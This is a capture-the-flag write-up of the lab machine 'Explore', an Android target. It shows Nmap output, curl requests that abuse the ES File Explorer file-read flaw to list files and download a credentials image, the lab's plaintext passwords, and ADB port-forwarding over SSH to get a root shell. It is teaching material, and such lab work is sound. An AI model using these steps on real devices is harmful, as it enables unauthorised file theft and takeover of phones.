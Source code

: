 #+TITLE: Explore
#+AUTHOR: AsmArtisan256

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: explore

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

This machine is a bit different, since it is an Android device!
After using =Nmap=, this is the result:

#+begin_src
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 18:12 WEST
Nmap scan report for 10.10.10.247
Host is up (0.046s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
34065/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:09 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 04 Jul 2021 17:12:09 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 04 Jul 2021 17:12:14 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:29 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:14 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:29 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:29 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 04 Jul 2021 17:12:29 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=7/4%Time=60E1EC11%P=x86_64-unknown-linux-gnu%
SF:r(NULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port34065-TCP:V=7.91%I=7%D=7/4%Time=60E1EC10%P=x86_64-unknown-linux-gnu
SF:%r(GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,
SF:\x2004\x20Jul\x202021\x2017:12:09\x20GMT\r\nContent-Length:\x2022\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\
SF:r\n\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20
SF:412\x20Precondition\x20Failed\r\nDate:\x20Sun,\x2004\x20Jul\x202021\x20
SF:17:12:09\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTT
SF:P/1\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Sun,\x2004\x20Jul\x2020
SF:21\x2017:12:14\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text
SF:/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20no
SF:t\x20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\
SF:x20Request\r\nDate:\x20Sun,\x2004\x20Jul\x202021\x2017:12:14\x20GMT\r\n
SF:Content-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASC
SF:II\r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20vers
SF:ion:\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Sun,\x2004\x20Jul\x202021\x2017:12:29\x20GMT\r\nContent-Leng
SF:th:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnec
SF:tion:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessio
SF:nReq,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\x2004\x20J
SF:ul\x202021\x2017:12:29\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:
SF:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInva
SF:lid\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?
SF:`~\?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(Termin
SF:alServerCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\
SF:x2004\x20Jul\x202021\x2017:12:29\x20GMT\r\nContent-Length:\x2054\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r
SF:\n\r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20
SF:mstshash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nDate:\x20Sun,\x2004\x20Jul\x202021\x2017:12:29\x20GMT\r\nContent-Len
SF:gth:\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConne
SF:ction:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01
SF:\0\0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.33 seconds
#+end_src

Well, there is a *lot* to unpack here. So many different ports are open on this
machine. We have some ports related to games (=5555= and =59777=). There is an
HTTP server port by =ES File Explorer= (=42135=). There is also an unknown port,
=34065=.

Port =5555= is an interesting case because, since this is an Android device, it
should be related to =Adb=. This one is obvious to me, since I have been doing
Android development for years.

Doing a fast search on Exploit-DB, there is an arbitrary file read vulnerability
on =ES File Explorer=. It includes a script, but I am going to try it out with
=cURL=. There is a list of possible POST commands in this link: https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566.

#+begin_src
$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/

[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },
{"name":"vndservice_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", },
{"name":"vendor_service_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_seapp_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_property_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", },
{"name":"vendor_hwservice_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_file_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", },
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"ueventd.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", },
{"name":"ueventd.android_x86_64.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", },
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"sys", "time":"7/4/21 01:21:23 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"storage", "time":"7/4/21 01:21:30 PM", "type":"folder", "size":"80.00 Bytes (80 Bytes)", },
{"name":"sepolicy", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"357.18 KB (365,756 Bytes)", },
{"name":"sdcard", "time":"7/4/21 01:42:43 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"sbin", "time":"7/4/21 01:21:23 PM", "type":"folder", "size":"140.00 Bytes (140 Bytes)", },
{"name":"product", "time":"3/24/20 11:39:17 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"proc", "time":"7/4/21 01:21:22 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"plat_service_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"13.73 KB (14,057 Bytes)", },
{"name":"plat_seapp_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"1.28 KB (1,315 Bytes)", },
{"name":"plat_property_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"6.53 KB (6,687 Bytes)", },
{"name":"plat_hwservice_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"7.04 KB (7,212 Bytes)", },
{"name":"plat_file_contexts", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"23.30 KB (23,863 Bytes)", },
{"name":"oem", "time":"7/4/21 01:21:23 PM", "type":"folder", "size":"40.00 Bytes (40 Bytes)", },
{"name":"odm", "time":"7/4/21 01:21:23 PM", "type":"folder", "size":"220.00 Bytes (220 Bytes)", },
{"name":"mnt", "time":"7/4/21 01:21:24 PM", "type":"folder", "size":"240.00 Bytes (240 Bytes)", },
{"name":"init.zygote64_32.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"875.00 Bytes (875 Bytes)", },
{"name":"init.zygote32.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"511.00 Bytes (511 Bytes)", },
{"name":"init.usb.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"5.51 KB (5,646 Bytes)", },
{"name":"init.usb.configfs.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"7.51 KB (7,690 Bytes)", },
{"name":"init.superuser.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"582.00 Bytes (582 Bytes)", },
{"name":"init.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"29.00 KB (29,697 Bytes)", },
{"name":"init.environ.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"1.04 KB (1,064 Bytes)", },
{"name":"init.android_x86_64.rc", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"3.36 KB (3,439 Bytes)", },
{"name":"init", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", },
{"name":"fstab.android_x86_64", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"753.00 Bytes (753 Bytes)", },
{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"dev", "time":"7/4/21 01:21:25 PM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", },
{"name":"default.prop", "time":"7/4/21 01:21:23 PM", "type":"file", "size":"1.09 KB (1,118 Bytes)", },
{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"d", "time":"7/4/21 01:21:22 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"config", "time":"7/4/21 01:21:24 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"cache", "time":"7/4/21 01:21:24 PM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", },
{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", },
{"name":"acct", "time":"7/4/21 01:21:23 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]%
#+end_src

It does list files! I am using port =59777= because it is the one that worked,
although =Nmap= says it belongs to a Bukkit HTTP server. But the port is
unmistakingly related to =ES File Explorer=.

* User

One of the directories is =sdcard=, it is normally what the user sees when
opening an Android file explorer. It should contain =user.txt=:

#+begin_src
$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/sdcard
[
{"name":"user.txt", "time":"3/13/21 06:28:55 PM", "type":"file", "size":"33.00 Bytes (33 Bytes)", },
]%
#+end_src

There are more files, but =user.txt= is what matters. Regardless, a pretty easy
user flag!

* Root

One could check other directories in =sdcard=, but most are empty. Except, the
=DCIM= directory has an interesting JPEG file called “creds”:

#+begin_src
curl --header "Content-Type: application/json" http://10.10.10.247:59777/sdcard/DCIM/creds.jpg --output creds.jpg
#+end_src

Well... it is an image of a username password pair. Since there is an SSH server
open port, maybe we can connect to it:

# Kr1sT!5g@Rp3xPl0r3!
# Kr1sT!5h@Rp3xPl0r3!

#+begin_src
$ ssh kristi@10.10.10.247 -p 2222

$ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
#+end_src

Connecting through SSH was successful and we are under an odd =id=. We can’t
execute anything as root, no way of doing that. But we do know that ADB is
listening to port =5555=. Maybe it is possible to do some tunneling through our
own machine:

#+begin_src
$ ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222

# ssh session will open
# open a new terminal and type:

$ adb -s localhost:5555 shell

# we will get a shell session where we can just execute `su` to get root permissions

$ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
$ su
# id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

#+end_src

To get the flag, we should access a directory that has exclusive root
permissions, like =/data=. There are a lot of files in there, but a quick =find
. -name "root.txt"= reveals the file in this same directory.

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">24-04-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
